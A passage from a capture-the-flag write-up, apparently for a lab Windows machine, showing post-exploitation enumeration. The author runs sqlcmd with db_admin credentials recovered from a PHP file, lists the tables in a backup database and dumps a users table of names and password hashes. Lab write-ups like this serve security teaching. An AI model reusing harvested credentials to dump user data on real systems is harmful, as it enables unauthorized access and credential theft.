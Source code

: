 ### Further Enumeration to capture User Flag

I upload `where.exe` on to our targe and found the SQL CMD is already installed on the box. I first check the list of Software installed in Program Files.
```
PS C:\ProgramData> where.exe sqlcmd
where.exe sqlcmd
C:\Program Files\Microsoft SQL Server\Client SDK\ODBC\170\Tools\Binn\SQLCMD.EXE
```

We can use `SQLCMD.exe` and explore other database. For Instance, During the enumeration through SQL Injection, We found that we `streamio_Backup` Database present as well.  
```
S C:\ProgramData> sqlcmd /?
sqlcmd /?
Microsoft (R) SQL Server Command Line Tool
Version 15.0.2000.5 NT
Copyright (C) 2019 Microsoft Corporation. All rights reserved.

usage: Sqlcmd            [-U login id]          [-P password]
  [-S server]            [-H hostname]          [-E trusted connection]
  [-N Encrypt Connection][-C Trust Server Certificate]
  [-d use database name] [-l login timeout]     [-t query timeout]

< Snipped >
```

**Remember: We also have credentials for db_admin user from `index.php` file above.** We will use that credentials
###### `Executing Query using SQLCMD on Target`
```
PS C:\ProgramData> sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select table_name from streamio_backup.information_schema.tables;"
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select table_name from streamio_backup.information_schema.tables;"
table_name                                                                                                                      
--------------------------------------------------------------------------------------------------------------------------------
movies                                                                                                                          
users  
```

```
PS C:\ProgramData> sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "use streamio_backup;"
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "use streamio_backup;"
Changed database context to 'streamio_backup'.
```

```
PS C:\ProgramData> sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
id          username                                           password                                          
----------- -------------------------------------------------- --------------------------------------------------
          1 nikk37                                             389d14cb8e4e9b94b137deb1caf0612a                  
          2 yoshihide                                          b779ba15cedfd22a023c4d8bcf5f2332                  
          3 James                                              c660060492d9edcaa8332d89c99c9239                  
          4 Theodore                                           925e5408ecb67aea449373d668b7359e                  
```